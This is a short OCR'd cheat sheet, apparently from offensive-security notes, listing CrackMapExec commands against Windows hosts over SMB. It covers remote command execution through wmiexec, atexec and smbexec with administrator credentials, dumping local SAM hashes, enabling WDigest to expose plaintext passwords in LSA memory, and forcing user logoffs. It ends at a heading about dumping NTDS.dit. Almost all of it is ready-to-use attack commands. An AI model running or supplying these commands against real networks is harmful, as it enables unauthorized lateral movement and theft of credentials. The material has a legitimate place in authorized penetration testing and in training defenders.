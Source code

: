 Execution & Co

# CrackMapExec has 3 different command execution methods (in default order) :
# - wmiexec --> WMI
# - atexec --> scheduled task
# - smbexec --> creating and running a service

# Execute command through cmd.exe (admin privileges required)
crackmapexec smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -x 'whoami'

# Force the smbexec method
crackmapexec smb 192.168.215.104 -u 'Administrator' -p 'PASS' -x 'net user Administrator /domain' --exec-method smbexec

# Execute commands through PowerShell (admin privileges required)
crackmapexec smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X 'whoami'

Getting Credentials

# Dump local SAM hashes
crackmapexec smb 192.168.215.104 -u 'Administrator' -p 'PASS' --local-auth --sam

# Enable or disable WDigest to get credentials from the LSA Memory
crackmapexec smb 192.168.215.104 -u 'Administrator' -p 'PASS' --local-auth --wdigest enable
crackmapexec smb 192.168.215.104 -u 'Administrator' -p 'PASS' --local-auth --wdigest disable

# Then you juste have to wait the user logoff and logon again
# But you can force the logoff
crackmapexec smb 192.168.215.104 -u 'Administrator' -p 'PASS' -x 'quser'
crackmapexec smb 192.168.215.104 -u 'Administrator' -p 'PASS' -x 'logoff <sessionid>'

# Dump the NTDS.dit from DC using methods from secretsdump.py
